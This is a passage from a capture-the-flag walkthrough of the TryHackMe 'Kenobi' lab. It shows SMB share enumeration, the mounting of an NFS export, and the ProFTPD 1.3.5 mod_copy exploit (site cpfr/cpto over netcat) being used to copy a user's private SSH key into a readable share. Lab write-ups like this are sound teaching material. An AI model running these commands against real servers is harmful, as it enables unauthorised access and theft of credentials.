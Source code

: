 ```
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

[+] Starting download: anonymous\log.txt (12237 bytes)
[+] File output to: /home/corn/ctf/tryhackme/kenobi/10.10.64.111-anonymous_log.txt
```
Inside log.txt we see that ftp is running as user kenobi, and this user also created an ssh key.
```
cat 10.10.64.111-anonymous_log.txt 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kenobi/.ssh/id_rsa): 
Created directory '/home/kenobi/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|           ..    |
|        . o. .   |
|       ..=o +.   |
|      . So.o++o. |
|  o ...+oo.Bo*o  |
| o o ..o.o+.@oo  |
|  . . . E .O+= . |
|     . .   oBo.  |
+----[SHA256]-----+

...

# Set the user and group under which the server will run.
User				kenobi
Group				kenobi
```
Also we can check showmount to see if there are any mountable directories since port 2049 is open.
```
showmount -e 10.10.64.111
Export list for 10.10.64.111:
/var *

sudo mount -t nfs 10.10.64.111:/var /mnt/smb
```
After mounting this filesystem, we can see that we have a writable directory on `/var/tmp`. 

Now using the ProFTP 1.3.5 mod_copy() exploit, we can copy the id_rsa file to /var/tmp and read it on our mounted share.
```
nc 10.10.64.111 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.64.111]

site cpfr /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
site cpto /var/tmp/id_rsa
250 Copy successful
```
```
cat /mnt/smb/tmp/id_rsa
-----BEGIN RSA PRIVATE KEY-----
```